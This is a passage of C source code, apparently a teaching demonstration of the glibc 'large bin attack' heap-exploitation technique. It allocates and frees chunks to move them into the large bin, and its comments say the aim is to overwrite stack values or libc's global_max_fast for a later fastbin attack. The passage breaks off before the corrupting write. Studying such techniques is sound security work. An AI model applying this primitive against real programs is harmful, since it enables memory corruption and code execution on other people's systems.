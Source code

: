 ```c
// gcc large_bin_attack.c -o large_bin_attack -g
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
                    "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                    " the third large chunk during the free()\n\n");
    malloc(0x20);

    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void* p4 = malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                    " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                    ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                    " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
```